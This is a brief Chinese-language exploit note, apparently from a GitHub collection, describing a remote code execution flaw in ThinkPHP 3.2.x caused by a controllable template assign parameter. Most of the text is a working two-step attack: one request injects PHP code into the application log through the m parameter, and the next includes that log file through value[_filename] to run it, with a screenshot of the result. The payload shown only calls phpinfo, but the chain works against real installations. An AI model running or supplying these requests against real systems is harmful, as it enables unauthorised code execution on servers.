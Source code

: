 ### ThinkPHP3.2.x RCE漏洞
**简介**

代码中模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

**利用**
```shell
# step1 插入payload到日志
index.php?m=--><?=phpinfo();?>
# step2 包含已插入恶意代码的日志文件 
/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_12.log
/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_07_12.log

```
**效果**
![image](https://user-images.githubusercontent.com/55024146/125297390-c3b5d400-e359-11eb-91f3-36bc92f368be.png)
